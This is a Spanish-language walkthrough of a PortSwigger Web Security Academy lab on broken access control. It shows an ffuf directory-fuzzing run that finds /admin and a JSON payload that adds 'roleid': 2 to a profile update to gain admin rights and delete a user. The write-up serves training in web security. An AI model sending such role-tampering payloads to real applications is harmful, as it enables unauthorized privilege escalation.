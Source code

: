 ```yaml
---
title: User role can be modified in user profile
description: Laboratorio de Portswigger sobre Broken Access Control
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Broken Access Control
tags:
  - Portswigger Labs
  - Broken Access Control
  - User role can be modified in user profile
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` en `/admin`. Solo es accesible para `usuarios autenticados` con un `roleid` de `2`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`. Podemos `iniciar sesión` en tu nuestra cuenta con las siguientes credenciales `wiener:peter`

---

## Guía de broken access control

`Antes` de completar este laboratorio es recomendable leerse esta guía de broken access control [https://justice-reaper.github.io/posts/Broken-Access-Control-Guide/](https://justice-reaper.github.io/posts/Broken-Access-Control-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Broken-Access-Control-Lab-4/image_1.png)

Pulsamos en `My account` y nos logueamos con las credenciales `wiener:peter`

![](/assets/img/Broken-Access-Control-Lab-4/image_2.png)

`Fuzzeamos` rutas y encontramos una llamada `/admin`

```
# ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ADMIN                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 63ms]
Admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 59ms]
Login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 67ms]
admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 61ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 56ms]
filter                  [Status: 200, Size: 10778, Words: 5080, Lines: 199, Duration: 63ms]
login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 61ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
```

Si accedemos a `/admin` nos `muestra` este `mensaje`

![](/assets/img/Broken-Access-Control-Lab-4/image_3.png)

En la parte de `My account` vemos que podemos `actualizar` nuestro `email`

![](/assets/img/Broken-Access-Control-Lab-4/image_4.png)

Si `interceptamos` la `petición` mediante `Burpsuite` vemos esto

![](/assets/img/Broken-Access-Control-Lab-4/image_5.png)

Si `enviamos` la `petición`, esta es la `repuesta` que `recibimos`

![](/assets/img/Broken-Access-Control-Lab-4/image_6.png)

Podemos `enviar` este `payload` en el cual cambiamos nuestro `roleid` a `2` con el fin de `escalar privilegios`

```
{
	"email":"wiener@normal-user.net",
	"roleid": 2
}
```

Una vez `ascendido` nuestro `privilegio` ya podemos `acceder` a `/admin`, `borrar` al usuario `carlos` y `ascender` nuestro `privilegio`

![](/assets/img/Broken-Access-Control-Lab-4/image_7.png)
